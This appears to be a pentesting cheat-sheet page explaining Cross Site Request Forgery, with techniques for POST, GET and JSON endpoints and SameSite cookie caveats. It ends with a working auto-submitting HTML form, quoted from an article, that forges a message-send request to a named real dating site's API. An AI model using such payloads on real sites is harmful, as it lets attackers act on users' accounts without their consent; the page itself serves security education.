 ```yaml
---
description: Making a request on the user's behalf.
---
```


# Cross Site Request Forgery \(CSRF\)

## Overview

If a website automatically sends a user's credentials when you interact with it \(cookies are sent automatically\), then CSRF can be used to impersonate the user \(assuming the website doesn't do anything to prevent it\).

## Common CSRF Payloads

Different types of endpoints require different techniques:

* POST
* GET
* DELETE/UPDATE
* JSON endpoint
* XML endpoint

### POST

Make a POST form with hidden inputs and use JavaScript to send the POST request automatically when the user navigates to the page.

### GET

Make an image with zero width and length and `src=`t`he_csrf_Link`. The GET request is made automatically when the browser tries to load the image.

### PUT/DELETE

This one is very difficult. Can only be accomplished with like browser plugins/plugin vulns and stuff.

### JSON

You can try to do a CSRF request to a JSON API endpoint.

https://blog.azuki.vip/csrf/



**Caveats** \(as of august 2021\):

* The server must not require **content-type: application/json** in the headers. The method results in a request with a **content-type: text/plain**  header
* This method results in one of the fields in the JSON request being `"foo":"="`. In other words, the server must not deny the request because of an **unexpected field**, or an **expected field with the value** `=`
* The SameSite cookie attribute must not be Strict
  * It defaults to **Lax** on browsers
  * In Firefox, it always works when SameSite has not been set
    * Haven’t tested when SameSite has been explicitly set to Lax
  * In Chrome, it works when SameSite has not been set
    * But only for **two minutes**, starting from the time the cookie was assigned to the user
    * Probably won’t work if SameSite has been explicitly set to Lax





Sample payload from the article. Sends a JSON request to the okcupid API:

```text
<html>  
 <body>  
   <form id="form" method="post" action="https://www.okcupid.com/1/apitun/messages/send" enctype="text/plain"\>  
     <input style='display:none' name='{"foo":"' value='", "receiverid":"123", "body":"i am a rabbit", "source":"desktop\_global", "service":"other"}'\>  
     <input type="submit" value="Click me"\>  
   </form>  
   <script>  
     window.onload = () => {form.submit()}  
   </script>  
 </body>  
</html>
```

